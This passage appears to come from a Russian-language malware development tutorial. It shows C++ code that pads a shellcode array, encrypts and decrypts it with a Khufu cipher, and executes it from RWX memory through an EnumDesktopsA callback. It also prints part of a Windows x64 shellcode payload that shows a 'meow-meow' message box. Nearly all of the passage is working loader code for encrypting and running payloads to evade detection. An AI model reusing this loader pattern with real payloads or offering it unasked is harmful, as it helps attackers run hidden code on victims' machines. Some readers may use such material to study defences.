 ```cpp
  "\x4c\x8d\x85\x25\x01\x00\x00\x48\x31\xc9\x41\xba\x45\x83"
  "\x56\x07\xff\xd5\xbb\xe0\x1d\x2a\x0a\x41\xba\xa6\x95\xbd"
  "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
  "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
  "\xd5\x4d\x65\x6f\x77\x2d\x6d\x65\x6f\x77\x21\x00\x3d\x5e"
  "\x2e\x2e\x5e\x3d\x00";

  int my_payload_len = sizeof(my_payload);
  int pad_len = my_payload_len + (8 - my_payload_len % 8) % 8;
  unsigned char padded[pad_len];
  memset(padded, 0x90, pad_len);
  memcpy(padded, my_payload, my_payload_len);

  printf("original shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", my_payload[i]);
  }
  printf("\n\n");

  khufu_encrypt_shellcode(padded, pad_len);

  printf("encrypted shellcode: ");
  for (int i = 0; i < pad_len; i++) {
    printf("%02x ", padded[i]);
  }
  printf("\n\n");

  khufu_decrypt_shellcode(padded, pad_len);

  printf("decrypted shellcode: ");
  for (int i = 0; i < my_payload_len; i++) {
    printf("%02x ", padded[i]);
  }

  printf("\n\n");

  LPVOID mem = VirtualAlloc(NULL, my_payload_len, MEM_COMMIT, 
  PAGE_EXECUTE_READWRITE);
  RtlMoveMemory(mem, padded, my_payload_len);
  EnumDesktopsA(GetProcessWindowStation(), (DESKTOPENUMPROCA)mem, NULL);
  return 0;
}
```

Как обычно, я использовал полезную нагрузку с `meow-meow` в окне сообщений:    

```cpp
unsigned char my_payload[] = 
  "\xfc\x48\x81\xe4\xf0\xff\xff\xff\xe8\xd0\x00\x00\x00\x41"
  "\x51\x41\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60"
  "\x3e\x48\x8b\x52\x18\x3e\x48\x8b\x52\x20\x3e\x48\x8b\x72"
  "\x50\x3e\x48\x0f\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac"
  "\x3c\x61\x7c\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2"
  "\xed\x52\x41\x51\x3e\x48\x8b\x52\x20\x3e\x8b\x42\x3c\x48"
  "\x01\xd0\x3e\x8b\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x6f"
  "\x48\x01\xd0\x50\x3e\x8b\x48\x18\x3e\x44\x8b\x40\x20\x49"
  "\x01\xd0\xe3\x5c\x48\xff\xc9\x3e\x41\x8b\x34\x88\x48\x01"
  "\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01"
  "\xc1\x38\xe0\x75\xf1\x3e\x4c\x03\x4c\x24\x08\x45\x39\xd1"
  "\x75\xd6\x58\x3e\x44\x8b\x40\x24\x49\x01\xd0\x66\x3e\x41"
  "\x8b\x0c\x48\x3e\x44\x8b\x40\x1c\x49\x01\xd0\x3e\x41\x8b"
  "\x04\x88\x48\x01\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58"
  "\x41\x59\x41\x5a\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41"
  "\x59\x5a\x3e\x48\x8b\x12\xe9\x49\xff\xff\xff\x5d\x49\xc7"
```